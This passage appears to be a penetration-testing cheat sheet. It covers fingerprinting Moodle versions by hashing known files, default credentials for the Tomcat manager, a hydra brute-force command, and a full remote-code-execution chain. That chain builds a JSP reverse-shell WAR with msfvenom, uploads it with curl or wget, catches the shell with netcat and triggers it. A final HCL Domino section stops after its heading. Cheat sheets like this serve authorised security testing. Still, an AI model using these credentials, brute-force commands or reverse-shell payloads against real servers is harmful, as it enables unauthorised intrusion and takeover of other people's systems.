 ### Moodle

#### Enumeration - Moodle

#### Moodle - Version

```
Curl the specified locations below and pipe to MD5sum to retreive the MD5 hash value. Then compare then against known values to get an approx version.

curl -SL https:SITE/locations|md5sum

'/admin/environment.xml'], ['/composer.lock'], ['/lib/upgrade.txt'], ['/privacy/export_files/general.js'], ['/composer.json'], ['/question/upgrade.txt'], ['/admin/tool/lp/tests/behat/course_competencies.feature']

List of version hashes
https://github.com/inc0d3/moodlescan/blob/master/data/version.txt
```

### Tomcat

#### Default credentials

```
The most interesting path of Tomcat is /manager/html, inside that path you can upload and deploy war files (execute code). But  this path is protected by basic HTTP auth, the most common credentials are :

admin:admin
tomcat:tomcat
admin:<NOTHING>
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
```

#### Brute force

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> -f <IP> http-get /manager/html -vV -u
```

#### Tomcat panel RCE

```
# Generate payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war

# Upload payload
Tomcat6 :
wget 'http://<USER>:<PASSWORD>@<IP>:8080/manager/deploy?war=file:shell.war&path=/shell' -O -

Tomcat7 and above :
curl -v -u <USER>:<PASSWORD> -T shell.war 'http://<IP>:8080/manager/text/deploy?path=/shellh&update=true'

# Listener
nc -lvp <PORT>

# Execute payload
curl http://<IP>:8080/shell/
```
#### HCL Domino
```
Following interesting location:  
```